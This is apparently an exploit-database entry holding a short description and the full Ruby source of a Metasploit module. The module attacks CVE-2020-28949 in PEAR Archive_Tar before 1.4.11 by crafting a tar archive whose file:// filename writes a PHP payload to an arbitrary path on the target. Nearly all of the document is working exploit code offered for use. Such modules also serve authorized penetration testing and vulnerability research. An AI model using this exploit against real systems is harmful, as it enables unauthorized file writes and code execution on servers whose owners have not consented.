 INFO
----

This Metasploit module takes advantages of Archive_Tar versions prior to 1.4.11 which fail to validate file stream wrappers contained within filenames to write an arbitrary file containing user controlled content to an arbitrary file on disk. Note that the file will be written to disk with the permissions of the user that PHP is running as, so it may not be possible to overwrite some files if the PHP user is not appropriately privileged.

EXP
---

    ##
    # This module requires Metasploit: https://metasploit.com/download
    # Current source: https://github.com/rapid7/metasploit-framework
    ##

    require 'rex/tar'

    class MetasploitModule < Msf::Exploit::Remote
      Rank = ExcellentRanking

      include Msf::Exploit::FILEFORMAT

      def initialize(info = {})
        super(
          update_info(
            info,
            'Name' => 'PEAR Archive_Tar < 1.4.11 Arbitrary File Write',
            'Description' => %q{
              This module takes advantages of Archive_Tar < 1.4.11's lack of validation of file stream wrappers contained
              within filenames to write an arbitrary file containing user controlled content to an arbitrary file
              on disk. Note that the file will be written to disk with the permissions of the user that PHP is
              running as, so it may not be possible to overwrite some files if the PHP user is not appropriately
              privileged.
            },
            'License' => MSF_LICENSE,
            'Author' =>
              [
                'gwillcox-r7', # Metasploit module
                'xorathustra', # Original advisory and PoC
              ],
            'References' =>
              [
                ['URL', 'https://github.com/pear/Archive_Tar/issues/33'],
                ['URL', 'https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-28949'],
                ['CVE', '2020-28949']
              ],
            'DefaultOptions' =>
              {
                'EXITFUNC' => 'thread',
                'DisablePayloadHandler' => true
              },
            'Platform' => ['php'],
            'Arch' => ARCH_PHP,
            'Targets' =>
              [
                ['Archive_Tar < 1.4.11', {}]
              ],
            'Privileged' => false,
            'DisclosureDate' => '2020-11-17'
          )
        )

        register_options([
          OptString.new('FILEPATH', [true, 'The full path to the file to write on the target.', '/tmp/msf.php'])
        ])
      end

      def exploit
        # Create malicious tar archive
        tarfile = StringIO.new
        Rex::Tar::Writer.new tarfile do |tar|
          tar.add_file "file://#{datastore['FILEPATH']}", 0o644 do |io|
            io.write payload.encoded
          end
        end
        tarfile.rewind
        file_buffer = tarfile.read

        print_status "Writing file: #{datastore['FILENAME']} (#{file_buffer.length} bytes) ..."
        file_create file_buffer
      end
    end